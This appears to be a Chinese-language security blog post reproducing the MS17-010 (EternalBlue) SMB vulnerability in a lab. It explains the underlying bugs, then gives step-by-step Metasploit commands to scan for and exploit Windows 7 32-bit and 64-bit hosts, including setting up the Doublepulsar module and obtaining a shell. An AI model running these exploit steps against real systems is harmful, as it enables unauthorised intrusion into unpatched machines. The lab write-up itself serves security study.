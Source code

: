```yaml
---
title: 【渗透】MS17-010漏洞复现
toc: true
thumbnail: /image/thumbnails/cyberpunk1.jpg
index_img: /image/thumbnails/cyberpunk1.jpg
date: 2019-11-14 19:46:30
tags: [CVE, Bug, Penetration]
categories: [Security]
---
```


## 1 漏洞原理

### 1.1 简介

**EternalBlue(在微软的MS17-010中被修复)是在Windows的SMB服务处理SMB v1请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。**

从EternalBlue这个Exploit被影子经纪人公布到互联网上后，就成为了“明星”。这个Exploit被多款恶意软件利用。包括肆虐的**WannaCrypt**，无文件的勒索软件**UIWIX**和SMB蠕虫**EternalRocks**。

<!--more-->

### 1.2 漏洞简析

**Eternalblue利用了3个不同的bug**

- 第一个是内核态函数**srv!SrvOs2FeaListToNt**在处理FEA(File Extended Attributes)转换时，由于错误地使用的**WORD强制类型转换**，导致在大非分页池(内核的数据结构，Large Non-Paged Kernel Pool)的**缓冲区溢出**。
- 第二个漏洞可以触发缓冲区溢出，这是由于SMB协议定义的两个子命令SMB_COM_TRANSACTION2和SMB_COM_NT_TRANSACT的差别。如果有太多的数据要包含在一个单独的包中，就需要_SECONDARY命令。TRANSACTION2和NT_TRANSACT的关键区别在于**后者调用的数据包是前者大小的2倍**。如果客户端使用NT_TRANSACT子命令在TRANSACTION2子命令前发送伪造的消息，就会出现验证错误。如果协议发现接收了2个分开的子命令，就会根据最后接收的包的类型来分配类型和大小。因为最后接收的包比较小，所以第一个包会占用比分配空间更多的空间。
- 一旦攻击者完成初始的溢出，就可以利用SMB v1中的第3个漏洞来进行Heap Spraying(堆喷射)，导致在给定地址分配一块内存。然后，攻击者就可以写入和执行shellcode来控制系统。

## 2 漏洞复现

### 2.1 渗透Windows7 32-bit

#### 2.1.1 实验环境

**实验平台：**

- 带有MS17-010漏洞的Windows 7 pro x86， 内部版本7601
  - **IP：192.168.188.136**
- Kali Linux，用于渗透
  - **IP：192.168.188.135**



**实验配置：**

kali没有32位机器的渗透模块，我们需要做以下配置

- **安装wine 32**

```bash
# root 权限
dpkg --add-architecture i386
apt-get update
apt-get install wine32
```

- **拉取EternalBlue_Doublepulsar攻击模块**

```bash
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

# 将模块拷贝到msf的相应目录
cd Eternalblue-Doublepulsar-metasploit
cp -r deps/ eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
```

- **运行postgresql**

```bash
service postgresql start
```



#### 2.1.2 信息搜集

- **nmap扫描**

```bash
# root 权限
namp -sS -sV -Pn 192.168.188.136
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191107174140.png)

发现该win7开放了445端口，可进一步采用msfconsole进行扫描分析

- **查看并使用辅助扫描模块测试目标是否可攻击**

```bash
# 运行msfconsole工具
msfconsole

# 搜索ms17-010相关模块，并采用辅助模块进行测试
search ms17-010

# 发现有一个ms17_010的扫描检测模块可用, use
use auxiliary/scanner/smb/smb_ms17_010
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109164105.png)



```bash
# 设置RHOSTS项为192.168.188.136
set RHOSTS 192.168.188.136

# 运行该ms17_010检测模块
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109164829.png)

**发现确实目标机器存在MS17-010，并提示可用之前git clone的DoublePulsar模块进行侵入**



#### 2.1.3 开始渗透

- **尝试攻击**

```bash
# 使用doublepulsar攻击模块
use exploit/windows/smb/eternalblue_doublepulsar

# 设置RHOST项为192.168.188.136
set RHOST 192.168.188.136

# 查看攻击模块的配置，请特别注意DOUBLEPULSARPATH是否与你git clone下载的路径一致
show options
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109170635.png)

```bash
# 运行攻击模块
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109171143.png)

```bash
# 渗透并没有成功，修改PROCESSINJECT项为explorer.exe (修改为lsass.exe也可以)
set PROCESSINJECT explorer.exe

# 再次exploit，成功
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109171502.png)



**meterpreter**是一个为攻击者提供交互性shell以便于在目标机器上执行代码的命令行工具。渗透成功的后续攻击可以参考阅读[【渗透】meterpreter提权](https://qgrain.github.io/2019/11/14/渗透-通过meterpreter进行提权/)



### 2.2 渗透Windows7 64-bit

相比于渗透Windows7 32-bit，渗透64位机器要简单得多，因为64位机器的渗透是msf内建支持的。

***前几个步骤基本和渗透32位机器一致***

#### 2.2.1 信息搜集

- **nmap扫描主机信息**
- **msfconsole采用scanner模块扫描检测ms17-010漏洞**

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.188.138 # Windows 7 x64
show options
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191114113425.png)



#### 2.2.2开始渗透

- **方法一：采用msf自带的eternalblue攻击模块**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.188 138 # Windows 7 x64
show options
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191114114152.png)

成功拿到目标机器的Shell

- **方法二：采用github开源攻击模块DoublePulsar**

步骤和攻击32位机器一致，但是需要配置[wine64和wine32共存]()